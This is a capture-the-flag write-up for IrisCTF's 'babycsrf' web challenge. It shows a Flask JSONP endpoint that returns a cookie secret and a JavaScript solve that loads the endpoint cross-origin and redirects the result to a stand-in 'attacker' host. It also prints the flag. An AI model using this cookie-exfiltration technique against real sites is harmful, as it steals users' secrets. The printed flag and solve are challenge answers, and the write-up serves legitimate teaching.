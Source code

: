 # babycsrf (Web)

This challenge was intended to help new players learn how to expose HTML solutions and use an admin bot.

The website implements a JSONP api to get the flag from cookies:
```python
@app.route("/api")
def page():
    secret = request.cookies.get("secret", "EXAMPLEFLAG")
    return f"setMessage('irisctf{{{secret}}}');"
```

The intended attack is to include the api endpoint as a `<script>` tag. The hint says the cookie is set with SameSite=None, so the admin bot will send the cookies with such a request, even if it's not while on the challenge origin!
One can copy the provided homepage to see how to load it:

```js
window.setMessage = (m) => {
    document.location = `https://attacker/?${m}`;
}
window.onload = () => {
    s = document.createElement("script");
    s.src = "https://babycsrf-web.chal.irisc.tf/api";
    document.body.appendChild(s);
}
```

Adding this JS to the solve template and sending it to the bot will return the flag.

```
irisctf{jsonp_is_never_the_answer}
```
